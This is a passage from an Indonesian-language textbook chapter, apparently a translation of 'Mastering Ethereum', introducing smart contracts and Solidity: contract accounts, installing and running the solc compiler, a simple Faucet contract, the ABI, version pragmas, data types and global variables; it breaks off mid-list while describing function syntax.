Kontrak pintar biasanya ditulis dalam bahasa tingkat tinggi, seperti Solidity. Tetapi untuk dapat berjalan, mereka harus dikompilasi ke *bytecode* tingkat rendah yang berjalan di EVM. Setelah dikompilasi, mereka diterapkan di platform Ethereum menggunakan transaksi pembuatan kontrak khusus, yang diidentifikasi dengan dikirim ke alamat pembuatan kontrak khusus, yaitu `0x0` (lihat “Transaksi Khusus: Pembuatan Kontrak” di halaman 112). Setiap kontrak diidentifikasi oleh alamat Ethereum, yang diturunkan dari transaksi pembuatan kontrak sebagai fungsi dari akun asal dan nonce. Alamat Ethereum sebuah kontrak dapat digunakan dalam transaksi sebagai penerima, mengirim dana ke kontrak atau memanggil salah satu fungsi kontrak. Perhatikan bahwa, tidak seperti EOA, tidak ada kunci yang terkait dengan akun yang dibuat untuk kontrak pintar baru.

Sebagai pembuat kontrak, Anda tidak mendapatkan hak istimewa khusus di tingkat protokol (meskipun Anda dapat secara eksplisit mengkodekannya ke dalam kontrak pintar). Anda tentu tidak menerima kunci privat untuk akun kontrak, yang pada kenyataannya tidak ada—kita dapat mengatakan bahwa **akun kontrak pintar memiliki diri mereka sendiri**.

Pentingnya, kontrak hanya berjalan jika dipanggil oleh sebuah transaksi. Semua kontrak pintar di Ethereum dieksekusi, pada akhirnya, karena transaksi yang dimulai dari EOA. Sebuah kontrak dapat memanggil kontrak lain yang dapat memanggil kontrak lain, dan seterusnya, tetapi kontrak pertama dalam rantai eksekusi seperti itu akan selalu dipanggil oleh transaksi dari EOA. Kontrak tidak pernah berjalan “sendiri” atau “di latar belakang.” Kontrak secara efektif tidak aktif sampai sebuah transaksi memicu eksekusi, baik secara langsung maupun tidak langsung sebagai bagian dari rantai panggilan kontrak. Perlu juga dicatat bahwa kontrak pintar tidak dieksekusi “secara paralel” dalam arti apa pun—komputer dunia Ethereum dapat dianggap sebagai mesin berulir tunggal (*single-threaded*).

Transaksi bersifat **atomik**, terlepas dari berapa banyak kontrak yang mereka panggil atau apa yang dilakukan kontrak-kontrak tersebut saat dipanggil. Transaksi dieksekusi secara keseluruhan, dengan setiap perubahan dalam keadaan global (kontrak, akun, dll.) hanya dicatat jika semua eksekusi berakhir dengan sukses. Pengakhiran yang sukses berarti program dieksekusi tanpa kesalahan dan mencapai akhir eksekusi. Jika eksekusi gagal karena kesalahan, semua efeknya (perubahan keadaan) akan **dibatalkan (*rolled back*)** seolah-olah transaksi tidak pernah berjalan. Transaksi yang gagal masih dicatat sebagai telah dicoba, dan ether yang dihabiskan untuk gas untuk eksekusi dikurangkan dari akun asal, tetapi sebaliknya tidak memiliki efek lain pada keadaan kontrak atau akun.

Seperti yang disebutkan sebelumnya, penting untuk diingat bahwa kode kontrak tidak dapat diubah. Namun, sebuah kontrak dapat “dihapus,” menghilangkan kode dan keadaan internalnya (penyimpanan) dari alamatnya, meninggalkan akun kosong. Setiap transaksi yang dikirim ke alamat akun tersebut setelah kontrak dihapus tidak menghasilkan eksekusi kode apa pun, karena tidak ada lagi kode di sana untuk dieksekusi. Untuk menghapus kontrak, Anda mengeksekusi *opcode* EVM yang disebut `SELFDESTRUCT` (sebelumnya disebut `SUICIDE`). Operasi itu berharga **“gas negatif,”** sebuah pengembalian gas, sehingga memberi insentif pelepasan sumber daya klien jaringan dari penghapusan keadaan yang tersimpan. Menghapus kontrak dengan cara ini tidak menghilangkan riwayat transaksi (masa lalu) kontrak, karena blockchain itu sendiri tidak dapat diubah. Penting juga untuk dicatat bahwa kemampuan `SELFDESTRUCT` hanya akan tersedia jika pembuat kontrak memprogram kontrak pintar untuk memiliki fungsionalitas tersebut. Jika kode kontrak tidak memiliki *opcode* `SELFDESTRUCT`, atau tidak dapat diakses, kontrak pintar tidak dapat dihapus.

### Pengenalan Bahasa Tingkat Tinggi Ethereum

EVM adalah mesin virtual yang menjalankan bentuk kode khusus yang disebut *bytecode* EVM, analog dengan CPU komputer Anda, yang menjalankan kode mesin seperti x86\_64. Kita akan memeriksa operasi dan bahasa EVM secara lebih detail di Bab 13. Di bagian ini kita akan melihat bagaimana kontrak pintar ditulis untuk berjalan di EVM.

Meskipun dimungkinkan untuk memprogram kontrak pintar secara langsung dalam *bytecode*, *bytecode* EVM agak merepotkan dan sangat sulit bagi pemrogram untuk dibaca dan dipahami. Sebaliknya, sebagian besar pengembang Ethereum menggunakan bahasa tingkat tinggi untuk menulis program, dan kompiler untuk mengubahnya menjadi *bytecode*.

Meskipun bahasa tingkat tinggi apa pun dapat diadaptasi untuk menulis kontrak pintar, mengadaptasi bahasa sewenang-wenang agar dapat dikompilasi menjadi *bytecode* EVM adalah latihan yang cukup rumit dan secara umum akan menimbulkan kebingungan. Kontrak pintar beroperasi di lingkungan eksekusi yang sangat terbatas dan minimalis (EVM). Selain itu, seperangkat variabel dan fungsi sistem khusus EVM perlu tersedia. Dengan demikian, lebih mudah untuk membangun bahasa kontrak pintar dari awal daripada membuat bahasa tujuan umum cocok untuk menulis kontrak pintar. Akibatnya, sejumlah bahasa tujuan khusus telah muncul untuk memprogram kontrak pintar. Ethereum memiliki beberapa bahasa seperti itu, bersama dengan kompiler yang diperlukan untuk menghasilkan *bytecode* yang dapat dieksekusi EVM.

Secara umum, bahasa pemrograman dapat diklasifikasikan ke dalam dua paradigma pemrograman besar: **deklaratif** dan **imperatif**, juga dikenal sebagai fungsional dan prosedural. Dalam pemrograman deklaratif, kita menulis fungsi yang mengekspresikan logika sebuah program, tetapi bukan alurnya. Pemrograman deklaratif digunakan untuk membuat program di mana tidak ada efek samping, yang berarti tidak ada perubahan keadaan di luar sebuah fungsi. Bahasa pemrograman deklaratif termasuk Haskell dan SQL. Pemrograman imperatif, sebaliknya, adalah di mana seorang pemrogram menulis seperangkat prosedur yang menggabungkan logika dan alur sebuah program. Bahasa pemrograman imperatif termasuk C++ dan Java. Beberapa bahasa bersifat “hibrida,” artinya mereka mendorong pemrograman deklaratif tetapi juga dapat digunakan untuk mengekspresikan paradigma pemrograman imperatif. Hibrida semacam itu termasuk Lisp, JavaScript, dan Python. Secara umum, setiap bahasa imperatif dapat digunakan untuk menulis dalam paradigma deklaratif, tetapi seringkali menghasilkan kode yang tidak elegan. Sebagai perbandingan, bahasa deklaratif murni tidak dapat digunakan untuk menulis dalam paradigma imperatif. Dalam bahasa deklaratif murni, tidak ada “variabel.”

Meskipun pemrograman imperatif lebih umum digunakan oleh pemrogram, bisa sangat sulit untuk menulis program yang dieksekusi persis seperti yang diharapkan. Kemampuan setiap bagian dari program untuk mengubah keadaan bagian lain membuatnya sulit untuk bernalar tentang eksekusi sebuah program dan memperkenalkan banyak peluang untuk *bug*. Pemrograman deklaratif, sebagai perbandingan, membuatnya lebih mudah untuk memahami bagaimana sebuah program akan berperilaku: karena tidak memiliki efek samping, setiap bagian dari program dapat dipahami secara terpisah.

Dalam kontrak pintar, *bug* secara harfiah merugikan uang. Akibatnya, sangat penting untuk menulis kontrak pintar tanpa efek yang tidak diinginkan. Untuk melakukan itu, Anda harus dapat dengan jelas bernalar tentang perilaku yang diharapkan dari program tersebut. Jadi, bahasa deklaratif memainkan peran yang jauh lebih besar dalam kontrak pintar daripada dalam perangkat lunak tujuan umum. Namun demikian, seperti yang akan Anda lihat, bahasa yang paling banyak digunakan untuk kontrak pintar (Solidity) adalah imperatif. Pemrogram, seperti kebanyakan manusia, menolak perubahan\!

Bahasa pemrograman tingkat tinggi yang saat ini didukung untuk kontrak pintar meliputi (diurutkan berdasarkan perkiraan usia):

  * **LLL**
    Bahasa pemrograman fungsional (deklaratif), dengan sintaksis seperti Lisp. Itu adalah bahasa tingkat tinggi pertama untuk kontrak pintar Ethereum tetapi jarang digunakan saat ini.
  * **Serpent**
    Bahasa pemrograman prosedural (imperatif) dengan sintaksis yang mirip dengan Python. Dapat juga digunakan untuk menulis kode fungsional (deklaratif), meskipun tidak sepenuhnya bebas dari efek samping.
  * **Solidity**
    Bahasa pemrograman prosedural (imperatif) dengan sintaksis yang mirip dengan JavaScript, C++, atau Java. Bahasa paling populer dan sering digunakan untuk kontrak pintar Ethereum.
  * **Vyper**
    Bahasa yang lebih baru dikembangkan, mirip dengan Serpent dan lagi dengan sintaksis seperti Python. Dimaksudkan untuk lebih dekat ke bahasa seperti Python yang murni fungsional daripada Serpent, tetapi bukan untuk menggantikan Serpent.
  * **Bamboo**
    Bahasa yang baru dikembangkan, dipengaruhi oleh Erlang, dengan transisi keadaan eksplisit dan tanpa alur berulang (loop). Dimaksudkan untuk mengurangi efek samping dan meningkatkan auditabilitas. Sangat baru dan belum diadopsi secara luas.

Seperti yang Anda lihat, ada banyak bahasa untuk dipilih. Namun, dari semua ini, **Solidity** adalah yang paling populer, sampai-sampai menjadi bahasa tingkat tinggi de facto Ethereum dan bahkan blockchain lain yang mirip EVM. Kami akan menghabiskan sebagian besar waktu kami menggunakan Solidity, tetapi juga akan menjelajahi beberapa contoh dalam bahasa tingkat tinggi lainnya untuk mendapatkan pemahaman tentang filosofi mereka yang berbeda.
### Membangun Kontrak Pintar dengan Solidity

Solidity diciptakan oleh Dr. Gavin Wood (salah satu penulis buku ini) sebagai bahasa yang secara eksplisit untuk menulis kontrak pintar dengan fitur untuk secara langsung mendukung eksekusi di lingkungan terdesentralisasi dari komputer dunia Ethereum. Atribut yang dihasilkan cukup umum, sehingga akhirnya digunakan untuk mengkodekan kontrak pintar di beberapa platform blockchain lainnya. Ini dikembangkan oleh Christian Reitiwessner dan kemudian juga oleh Alex Beregszaszi, Liana Husikyan, Yoichi Hirai, dan beberapa mantan kontributor inti Ethereum. Solidity sekarang dikembangkan dan dipelihara sebagai proyek independen di GitHub.

"Produk" utama dari proyek Solidity adalah kompiler Solidity, **solc**, yang mengubah program yang ditulis dalam bahasa Solidity menjadi *bytecode* EVM. Proyek ini juga mengelola standar **application binary interface (ABI)** yang penting untuk kontrak pintar Ethereum, yang akan kita jelajahi secara detail dalam bab ini. Setiap versi kompiler Solidity sesuai dengan dan mengkompilasi versi spesifik dari bahasa Solidity.

Untuk memulai, kita akan mengunduh biner yang dapat dieksekusi dari kompiler Solidity. Kemudian kita akan mengembangkan dan mengkompilasi kontrak sederhana, melanjutkan dari contoh yang kita mulai di Bab 2.

#### Memilih Versi Solidity

Solidity mengikuti model versioning yang disebut *semantic versioning*, yang menetapkan nomor versi yang terstruktur sebagai tiga angka yang dipisahkan oleh titik: `MAJOR.MINOR.PATCH`. Angka “major” dinaikkan untuk perubahan besar dan tidak kompatibel ke belakang, angka “minor” dinaikkan saat fitur yang kompatibel ke belakang ditambahkan di antara rilis besar, dan angka “patch” dinaikkan untuk perbaikan *bug* yang kompatibel ke belakang.

Pada saat penulisan, Solidity berada di versi 0.4.24. Aturan untuk versi utama 0, yang untuk pengembangan awal sebuah proyek, berbeda: apa pun dapat berubah kapan saja. Dalam praktiknya, Solidity memperlakukan angka “minor” seolah-olah itu adalah versi utama dan angka “patch” seolah-olah itu adalah versi minor. Oleh karena itu, dalam 0.4.24, 4 dianggap sebagai versi utama dan 24 sebagai versi minor.

Rilis versi utama 0.5 dari Solidity diantisipasi akan segera terjadi.

Seperti yang Anda lihat di Bab 2, program Solidity Anda dapat berisi direktif `pragma` yang menentukan versi minimum dan maksimum Solidity yang kompatibel dengannya, dan dapat digunakan untuk mengkompilasi kontrak Anda.

Karena Solidity berkembang pesat, seringkali lebih baik untuk menginstal rilis terbaru.

#### Unduh dan Instal

Ada sejumlah metode yang dapat Anda gunakan untuk mengunduh dan menginstal Solidity, baik sebagai rilis biner atau dengan mengkompilasi dari kode sumber. Anda dapat menemukan instruksi terperinci di dokumentasi Solidity.

Berikut cara menginstal rilis biner terbaru Solidity pada sistem operasi Ubuntu/Debian, menggunakan manajer paket `apt`:

```bash
$ sudo add-apt-repository ppa:ethereum/ethereum
$ sudo apt update
$ sudo apt install solc
```

Setelah Anda menginstal `solc`, periksa versinya dengan menjalankan:

```bash
$ solc --version
solc, the solidity compiler commandline interface
Version: 0.4.24+commit.e67f0147.Linux.g++
```

Ada sejumlah cara lain untuk menginstal Solidity, tergantung pada sistem operasi dan persyaratan Anda, termasuk mengkompilasi langsung dari kode sumber. Untuk informasi lebih lanjut lihat [https://github.com/ethereum/solidity](https://github.com/ethereum/solidity).

#### Lingkungan Pengembangan

Untuk mengembangkan di Solidity, Anda dapat menggunakan editor teks apa pun dan `solc` di baris perintah. Namun, Anda mungkin menemukan bahwa beberapa editor teks yang dirancang untuk pengembangan, seperti Emacs, Vim, dan Atom, menawarkan fitur tambahan seperti penyorotan sintaksis dan makro yang membuat pengembangan Solidity lebih mudah.

Ada juga lingkungan pengembangan berbasis web, seperti **Remix IDE** dan **EthFiddle**.

Gunakan alat yang membuat Anda produktif. Pada akhirnya, program Solidity hanyalah file teks biasa. Meskipun editor dan lingkungan pengembangan yang canggih dapat membuat segalanya lebih mudah, Anda tidak memerlukan lebih dari editor teks sederhana, seperti nano (Linux/Unix), TextEdit (macOS), atau bahkan NotePad (Windows). Cukup simpan kode sumber program Anda dengan ekstensi `.sol` dan itu akan dikenali oleh kompiler Solidity sebagai program Solidity.

#### Menulis Program Solidity Sederhana

Di Bab 2, kita menulis program Solidity pertama kita. Saat kita pertama kali membangun kontrak `Faucet`, kita menggunakan Remix IDE untuk mengkompilasi dan menerapkan kontrak tersebut. Di bagian ini, kita akan meninjau kembali, meningkatkan, dan memperindahnya.

Upaya pertama kita terlihat seperti Contoh 7-1.

**Contoh 7-1. Faucet.sol: Kontrak Solidity yang mengimplementasikan sebuah faucet**

```solidity
1 // Kontrak pertama kita adalah sebuah faucet!
2 contract Faucet {
3
4   // Memberikan ether kepada siapa saja yang meminta
5   function withdraw(uint withdraw_amount) public {
6
7     // Batasi jumlah penarikan
8     require(withdraw_amount <= 100000000000000000);
9
10    // Kirim jumlah tersebut ke alamat yang memintanya
11    msg.sender.transfer(withdraw_amount);
12  }
13
14  // Menerima jumlah yang masuk
15  function () public payable {}
16
17 }
```

#### Mengkompilasi dengan Kompiler Solidity (solc)

Sekarang, kita akan menggunakan kompiler Solidity di baris perintah untuk mengkompilasi kontrak kita secara langsung. Kompiler Solidity `solc` menawarkan berbagai opsi, yang dapat Anda lihat dengan memberikan argumen `--help`.

Kita menggunakan argumen `--bin` dan `--optimize` dari `solc` untuk menghasilkan biner yang dioptimalkan dari kontrak contoh kita:

```bash
$ solc --optimize --bin Faucet.sol

======= Faucet.sol:Faucet =======
Binary:
6060604052341561000f57600080fd5b60cf8061001d6000396000f300606060405260043610603e5
763ffffffff7c01000000000000000000000000000000000000000000000000000000006000350416
632e1a7d4d81146040575b005b3415604a57600080fd5b603e60043567016345785d8a00008111156
06357600080fd5b73ffffffffffffffffffffffffffffffffffffffff331681156108fc0282604051
600060405180830381858888f19350505050151560a057600080fd5b505600a165627a7a723058203
556d79355f2da19e773a9551e95f1ca7457f2b5fbbf4eacf7748ab59d2532130029
```

Hasil yang dihasilkan `solc` adalah biner yang diserialisasi heksadesimal yang dapat dikirimkan ke blockchain Ethereum.

#### Application Binary Interface (ABI) Kontrak Ethereum

Dalam perangkat lunak komputer, **application binary interface (ABI)** adalah antarmuka antara dua modul program; seringkali, antara sistem operasi dan program pengguna. ABI mendefinisikan bagaimana struktur data dan fungsi diakses dalam kode mesin; ini tidak boleh disamakan dengan API, yang mendefinisikan akses ini dalam format tingkat tinggi, seringkali dapat dibaca manusia sebagai kode sumber. Dengan demikian, ABI adalah cara utama untuk mengkodekan dan mendekode data ke dalam dan dari kode mesin.

Di Ethereum, ABI digunakan untuk mengkodekan panggilan kontrak untuk EVM dan untuk membaca data dari transaksi. Tujuan dari ABI adalah untuk mendefinisikan fungsi-fungsi dalam kontrak yang dapat dipanggil dan menjelaskan bagaimana setiap fungsi akan menerima argumen dan mengembalikan hasilnya.

ABI sebuah kontrak ditentukan sebagai larik JSON dari deskripsi fungsi (lihat “Fungsi” di halaman 141) dan *event* (lihat “Events” di halaman 149). Deskripsi fungsi adalah objek JSON dengan bidang `type`, `name`, `inputs`, `outputs`, `constant`, dan `payable`. Objek deskripsi *event* memiliki bidang `type`, `name`, `inputs`, dan `anonymous`.

Kita menggunakan kompiler Solidity baris perintah `solc` untuk menghasilkan ABI untuk kontrak contoh `Faucet.sol` kita:

```bash
$ solc --abi Faucet.sol

======= Faucet.sol:Faucet =======
Contract JSON ABI
[{"constant":false,"inputs":[{"name":"withdraw_amount","type":"uint256"}], "name":"withdraw","outputs":[],"payable":false,"stateMutability":"nonpayable", "type":"function"},{"payable":true,"stateMutability":"payable", "type":"fallback"}]
```

Seperti yang Anda lihat, kompiler menghasilkan larik JSON yang menjelaskan dua fungsi yang didefinisikan oleh `Faucet.sol`. JSON ini dapat digunakan oleh aplikasi apa pun yang ingin mengakses kontrak `Faucet` setelah diterapkan. Menggunakan ABI, aplikasi seperti dompet atau browser DApp dapat membuat transaksi yang memanggil fungsi di `Faucet` dengan argumen dan tipe argumen yang benar. Misalnya, dompet akan tahu bahwa untuk memanggil fungsi `withdraw` ia harus menyediakan argumen `uint256` bernama `withdraw_amount`. Dompet dapat meminta pengguna untuk memberikan nilai itu, lalu membuat transaksi yang mengkodekannya dan mengeksekusi fungsi `withdraw`.

Yang dibutuhkan oleh aplikasi untuk berinteraksi dengan kontrak hanyalah ABI dan alamat tempat kontrak tersebut telah diterapkan.

#### Memilih Kompiler Solidity dan Versi Bahasa

Seperti yang kita lihat di kode sebelumnya, kontrak `Faucet` kita berhasil dikompilasi dengan Solidity versi 0.4.21. Tapi bagaimana jika kita menggunakan versi kompiler Solidity yang berbeda? Bahasa ini masih terus berubah dan hal-hal bisa berubah dengan cara yang tidak terduga. Kontrak kita cukup sederhana, tetapi bagaimana jika program kita menggunakan fitur yang baru ditambahkan di Solidity versi 0.4.19 dan kita mencoba mengkompilasinya dengan 0.4.18?

Untuk mengatasi masalah seperti itu, Solidity menawarkan direktif kompiler yang dikenal sebagai **version pragma** yang menginstruksikan kompiler bahwa program mengharapkan versi kompiler (dan bahasa) tertentu. Mari kita lihat sebuah contoh:

```solidity
pragma solidity ^0.4.19;
```

Kompiler Solidity membaca *version pragma* dan akan menghasilkan kesalahan jika versi kompiler tidak kompatibel dengan *version pragma*. Dalam kasus ini, *version pragma* kita mengatakan bahwa program ini dapat dikompilasi oleh kompiler Solidity dengan versi minimum 0.4.19. Simbol `^` menyatakan, bagaimanapun, bahwa kita mengizinkan kompilasi dengan revisi minor apa pun di atas 0.4.19; mis., 0.4.20, tetapi tidak 0.5.0 (yang merupakan revisi utama, bukan revisi minor). Direktif *pragma* tidak dikompilasi menjadi *bytecode* EVM. Mereka hanya digunakan oleh kompiler untuk memeriksa kompatibilitas.

Mari kita tambahkan direktif *pragma* ke kontrak `Faucet` kita. Kita akan menamai file baru `Faucet2.sol`, untuk melacak perubahan kita saat kita melanjutkan contoh-contoh ini mulai dari Contoh 7-2.

**Contoh 7-2. Faucet2.sol: Menambahkan version pragma ke Faucet**

```solidity
1 // Versi kompiler Solidity yang digunakan untuk menulis program ini
2 pragma solidity ^0.4.19;
3
4 // Kontrak pertama kita adalah sebuah faucet!
5 contract Faucet {
6
7   // Memberikan ether kepada siapa saja yang meminta
8   function withdraw(uint withdraw_amount) public {
9
10    // Batasi jumlah penarikan
11    require(withdraw_amount <= 100000000000000000);
12
13    // Kirim jumlah tersebut ke alamat yang memintanya
14    msg.sender.transfer(withdraw_amount);
15  }
16
17  // Menerima jumlah yang masuk
18  function () public payable {}
19
20 }
```

Menambahkan *version pragma* adalah praktik terbaik, karena menghindari masalah dengan ketidakcocokan versi kompiler dan bahasa. Kami akan menjelajahi praktik terbaik lainnya dan terus meningkatkan kontrak `Faucet` di sepanjang bab ini.

### Memprogram dengan Solidity

Di bagian ini, kita akan melihat beberapa kemampuan bahasa Solidity. Seperti yang kami sebutkan di Bab 2, contoh kontrak pertama kami sangat sederhana dan juga cacat dalam berbagai cara. Kami akan secara bertahap memperbaikinya di sini, sambil menjelajahi cara menggunakan Solidity. Namun, ini tidak akan menjadi tutorial Solidity yang komprehensif, karena Solidity cukup kompleks dan berkembang pesat. Kami akan membahas dasar-dasarnya dan memberi Anda cukup fondasi untuk dapat menjelajahi sisanya sendiri. Dokumentasi untuk Solidity dapat ditemukan di situs web proyek.

#### Tipe Data

Pertama, mari kita lihat beberapa tipe data dasar yang ditawarkan di Solidity:

  * **Boolean (bool)**
    Nilai boolean, `true` atau `false`, dengan operator logika `!` (tidak), `&&` (dan), `||` (atau), `==` (sama dengan), dan `!=` (tidak sama dengan).
  * **Integer (int, uint)**
    Integer bertanda (`int`) dan tidak bertanda (`uint`), dideklarasikan dalam kelipatan 8 bit dari `int8` hingga `uint256`. Tanpa akhiran ukuran, kuantitas 256-bit digunakan, untuk mencocokkan ukuran kata EVM.
  * **Titik tetap (fixed, ufixed)**
    Angka titik tetap, dideklarasikan dengan `(u)fixedMxN` di mana `M` adalah ukuran dalam bit (kelipatan 8 hingga 256) dan `N` adalah jumlah desimal setelah titik (hingga 18); mis., `ufixed32x2`.
  * **Address**
    Alamat Ethereum 20-byte. Objek alamat memiliki banyak fungsi anggota yang membantu, yang utama adalah `balance` (mengembalikan saldo akun) dan `transfer` (mentransfer ether ke akun).
  * **Larik byte (tetap)**
    Larik byte berukuran tetap, dideklarasikan dengan `bytes1` hingga `bytes32`.
  * **Larik byte (dinamis)**
    Larik byte berukuran variabel, dideklarasikan dengan `bytes` atau `string`.
  * **Enum**
    Tipe yang ditentukan pengguna untuk menghitung nilai-nilai diskrit: `enum NAME {LABEL1, LABEL2, ...}`.
  * **Larik (Arrays)**
    Larik dari tipe apa pun, baik tetap atau dinamis: `uint32[][5]` adalah larik berukuran tetap dari lima larik dinamis integer tak bertanda.
  * **Struct**
    Wadah data yang ditentukan pengguna untuk mengelompokkan variabel: `struct NAME {TYPE1 VARIABLE1; TYPE2 VARIABLE2; ...}`.
  * **Mapping**
    Tabel pencarian hash untuk pasangan kunci ⇒ nilai: `mapping(KEY_TYPE ⇒ VALUE_TYPE) NAME`.

Selain tipe data ini, Solidity juga menawarkan berbagai literal nilai yang dapat digunakan untuk menghitung unit yang berbeda:

  * **Unit waktu**
    Unit `seconds`, `minutes`, `hours`, dan `days` dapat digunakan sebagai akhiran, dikonversi menjadi kelipatan unit dasar detik.
  * **Unit ether**
    Unit `wei`, `finney`, `szabo`, dan `ether` dapat digunakan sebagai akhiran, dikonversi menjadi kelipatan unit dasar wei.

Dalam contoh kontrak `Faucet` kami, kami menggunakan `uint` (yang merupakan alias untuk `uint256`) untuk variabel `withdraw_amount`. Kami juga secara tidak langsung menggunakan variabel `address`, yang kami atur dengan `msg.sender`. Kami akan menggunakan lebih banyak tipe data ini dalam contoh kami di sisa bab ini.

Mari kita gunakan salah satu pengali unit untuk meningkatkan keterbacaan kontrak contoh kita. Dalam fungsi `withdraw` kita membatasi penarikan maksimum, menyatakan batas dalam wei, unit dasar ether:

```solidity
require(withdraw_amount <= 100000000000000000);
```

Itu tidak terlalu mudah dibaca. Kita dapat meningkatkan kode kita dengan menggunakan pengali unit `ether`, untuk menyatakan nilai dalam ether alih-alih wei:

```solidity
require(withdraw_amount <= 0.1 ether);
```

#### Variabel dan Fungsi Global yang Telah Ditentukan

Ketika sebuah kontrak dieksekusi di EVM, ia memiliki akses ke seperangkat kecil objek global. Ini termasuk objek `block`, `msg`, dan `tx`. Selain itu, Solidity mengekspos sejumlah *opcode* EVM sebagai fungsi yang telah ditentukan sebelumnya. Di bagian ini kita akan memeriksa variabel dan fungsi yang dapat Anda akses dari dalam kontrak pintar di Solidity.

##### Konteks panggilan transaksi/pesan

Objek **`msg`** adalah panggilan transaksi (berasal dari EOA) atau panggilan pesan (berasal dari kontrak) yang meluncurkan eksekusi kontrak ini. Ia berisi sejumlah atribut yang berguna:

  * **`msg.sender`**
    Kami sudah menggunakan yang ini. Ini mewakili alamat yang memulai panggilan kontrak ini, belum tentu EOA asal yang mengirim transaksi. Jika kontrak kami dipanggil langsung oleh transaksi EOA, maka ini adalah alamat yang menandatangani transaksi, tetapi sebaliknya itu akan menjadi alamat kontrak.
  * **`msg.value`**
    Nilai ether yang dikirim dengan panggilan ini (dalam wei).
  * **`msg.gas`**
    Jumlah gas yang tersisa dalam pasokan gas dari lingkungan eksekusi ini. Ini sudah usang di Solidity v0.4.21 dan digantikan oleh fungsi `gasleft`.
  * **`msg.data`**
    Muatan data dari panggilan ini ke kontrak kita.
  * **`msg.sig`**
    Empat byte pertama dari muatan data, yang merupakan selektor fungsi.

> Setiap kali sebuah kontrak memanggil kontrak lain, nilai semua atribut `msg` berubah untuk mencerminkan informasi pemanggil baru. Satu-satunya pengecualian untuk ini adalah fungsi `delegatecall`, yang menjalankan kode dari kontrak/pustaka lain dalam konteks `msg` asli.

##### Konteks transaksi

Objek **`tx`** menyediakan sarana untuk mengakses informasi terkait transaksi:

  * **`tx.gasprice`**
    Harga gas dalam transaksi panggilan.
  * **`tx.origin`**
    Alamat EOA asal untuk transaksi ini. **PERINGATAN: tidak aman\!**

##### Konteks blok

Objek **`block`** berisi informasi tentang blok saat ini:

  * **`block.blockhash(blockNumber)`**
    Hash blok dari nomor blok yang ditentukan, hingga 256 blok di masa lalu. Sudah usang dan digantikan oleh fungsi `blockhash` di Solidity v0.4.22.
  * **`block.coinbase`**
    Alamat penerima biaya blok saat ini dan hadiah blok.
  * **`block.difficulty`**
    Kesulitan (*proof of work*) dari blok saat ini.
  * **`block.gaslimit`**
    Jumlah maksimum gas yang dapat dihabiskan di semua transaksi yang termasuk dalam blok saat ini.
  * **`block.number`**
    Nomor blok saat ini (ketinggian blockchain).
  * **`block.timestamp`**
    Stempel waktu yang ditempatkan di blok saat ini oleh penambang (jumlah detik sejak zaman Unix).

##### Objek `address`

Setiap alamat, baik yang diteruskan sebagai input atau di-cast dari objek kontrak, memiliki sejumlah atribut dan metode:

  * **`address.balance`**
    Saldo alamat, dalam wei. Misalnya, saldo kontrak saat ini adalah `address(this).balance`.
  * **`address.transfer(amount)`**
    Mentransfer jumlah (dalam wei) ke alamat ini, melemparkan pengecualian pada setiap kesalahan. Kami menggunakan fungsi ini dalam contoh `Faucet` kami sebagai metode pada alamat `msg.sender`, sebagai `msg.sender.transfer`.
  * **`address.send(amount)`**
    Mirip dengan `transfer`, hanya saja alih-alih melemparkan pengecualian, ia mengembalikan `false` jika terjadi kesalahan. **PERINGATAN: selalu periksa nilai kembali dari `send`**.
  * **`address.call(payload)`**
    Fungsi `CALL` tingkat rendah—dapat membuat panggilan pesan sewenang-wenang dengan muatan data. Mengembalikan `false` jika terjadi kesalahan. **PERINGATAN: tidak aman**—penerima dapat (secara tidak sengaja atau sengaja) menghabiskan semua gas Anda, menyebabkan kontrak Anda berhenti dengan pengecualian OOG; selalu periksa nilai kembali dari `call`.
  * **`address.callcode(payload)`**
    Fungsi `CALLCODE` tingkat rendah, seperti `address(this).call(...)` tetapi dengan kode kontrak ini diganti dengan kode dari `address`. Mengembalikan `false` jika terjadi kesalahan. **PERINGATAN: penggunaan tingkat lanjut saja\!**
  * **`address.delegatecall()`**
    Fungsi `DELEGATECALL` tingkat rendah, seperti `callcode(...)` tetapi dengan konteks `msg` penuh yang dilihat oleh kontrak saat ini. Mengembalikan `false` jika terjadi kesalahan. **PERINGATAN: penggunaan tingkat lanjut saja\!**

##### Fungsi bawaan

Fungsi lain yang perlu diperhatikan adalah:

  * **`addmod`, `mulmod`**
    Untuk penjumlahan dan perkalian modulo. Misalnya, `addmod(x,y,k)` menghitung `(x + y) % k`.
  * **`keccak256`, `sha256`, `sha3`, `ripemd160`**
    Fungsi untuk menghitung hash dengan berbagai algoritma hash standar.
  * **`ecrecover`**
    Memulihkan alamat yang digunakan untuk menandatangani pesan dari tanda tangan.
  * **`selfdestruct(recipient_address)`**
    Menghapus kontrak saat ini, mengirim sisa ether di akun ke alamat penerima.
  * **`this`**
    Alamat dari akun kontrak yang sedang dieksekusi.

#### Definisi Kontrak

Tipe data utama Solidity adalah **`contract`**; contoh `Faucet` kita hanya mendefinisikan objek kontrak. Mirip dengan objek apa pun dalam bahasa berorientasi objek, kontrak adalah wadah yang mencakup data dan metode.

Solidity menawarkan dua tipe objek lain yang mirip dengan kontrak:

  * **`interface`**
    Definisi antarmuka terstruktur persis seperti kontrak, kecuali tidak ada fungsi yang didefinisikan, mereka hanya dideklarasikan. Jenis deklarasi ini sering disebut *stub*; ini memberitahu Anda argumen dan tipe kembalian fungsi tanpa implementasi apa pun. Antarmuka menentukan “bentuk” sebuah kontrak; ketika diwarisi, setiap fungsi yang dideklarasikan oleh antarmuka harus didefinisikan oleh anak.
  * **`library`**
    Kontrak pustaka adalah kontrak yang dimaksudkan untuk diterapkan hanya sekali dan digunakan oleh kontrak lain, menggunakan metode `delegatecall` (lihat “Objek `address`” di halaman 139).

#### Fungsi

Di dalam sebuah kontrak, kita mendefinisikan fungsi yang dapat dipanggil oleh transaksi EOA atau kontrak lain. Dalam contoh `Faucet` kami, kami memiliki dua fungsi: `withdraw` dan fungsi *fallback* (tanpa nama).

Sintaksis yang kami gunakan untuk mendeklarasikan fungsi di Solidity adalah sebagai berikut:
`function FunctionName([parameters]) {public|private|internal|external} [pure|constant|view|payable] [modifiers] [returns (return types)]`

Mari kita lihat setiap komponen ini:

  * **`FunctionName`**
    Nama fungsi, yang digunakan untuk memanggil fungsi dalam transaksi (dari EOA), dari kontrak lain, atau bahkan dari dalam kontrak yang sama. Satu fungsi di setiap kontrak dapat didefinisikan tanpa nama, dalam hal ini itu adalah **fungsi *fallback***, yang dipanggil ketika tidak ada fungsi lain yang disebutkan. Fungsi *fallback* tidak dapat memiliki argumen apa pun atau mengembalikan apa pun.
  * **`parameters`**
